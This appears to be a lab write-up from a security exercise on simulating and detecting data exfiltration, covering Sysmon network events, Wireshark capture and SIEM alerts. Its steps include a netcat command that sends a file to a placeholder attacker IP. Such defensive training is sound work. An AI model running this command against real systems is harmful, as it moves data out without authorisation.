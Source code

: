 # Hint 03: Data Exfiltration Detection

## Objective

Simulate unauthorized data transfer to detect exfiltration attempts via network monitoring.

## Steps Taken

- Used `netcat` to send a file from Windows VM to remote IP over a non-standard port:
  ```
  nc <attacker-ip> <port> < file.txt
  ```
- Captured network traffic using Wireshark.

## Logs & Evidence

- Sysmon Event ID 3 (Network Connection) to unknown IP.
- Large outbound data volume detected in SIEM.
- See: `logs/network_capture_hint3.pcap`
- Screenshot: `screenshots/hint03_data_exfiltration.png`

## Detection & Analysis

- SIEM rules detected large outbound transfer on port not typically used.
- No legitimate process associated with this network activity.

## Lessons Learned

- Monitoring for unexpected outbound traffic and data spikes can reveal exfiltration.
- Establishing baselines for normal network activity enhances detection.
